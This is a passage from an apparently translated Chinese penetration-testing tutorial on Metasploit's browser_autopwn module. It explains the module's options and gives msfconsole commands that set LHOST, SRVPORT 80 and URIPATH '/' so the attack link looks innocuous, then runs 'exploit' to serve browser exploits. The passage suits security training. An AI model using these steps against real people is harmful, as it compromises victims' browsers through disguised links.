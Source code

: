 +   `SSL` - 切换 true 或 false 以启用 SSL 连接

+   `SSL 证书` - 如果托管网页，则可以提供要使用的 SSL 证书的路径

+   `SSL 版本` - 默认情况下使用 SSL3

+   `URIPATH` - `URIPATH`指定了攻击 URL 的格式

让我们看看执行攻击所需设置的值。如下屏幕截图所示：

![使用辅助模块进行客户端攻击](img/4483OT_04_17.jpg)

在上面的屏幕截图中，您可以详细了解设置。我们已将 SRV 端口设置为 80，这是默认的 HTTP 端口。这将避免任何关于链接威胁的疑虑。设置 URIPATH 为`/`也是同样的道理，因为这个选项使 URL 成为一个简单的 URL，而不是附加一些无意义的字母。我们还将 LHOST 设置为攻击者机器的 IP，在这种情况下是我们自己的机器。

这些命令的语法如下：

+   `msf auxiliary(browser_autopwn)>set lhost ip_address`

+   `msf auxiliary(browser_autopwn)>set srvport port_number`

+   `msf auxiliary(browser_autopwn)>set URIPATH /`

+   `msf auxiliary(browser_autopwn)>exploit`

一旦我们完成设置数值，就该运行`exploit`命令了。以下截图显示，利用服务器加载自身的利用脚本后，准备就绪！
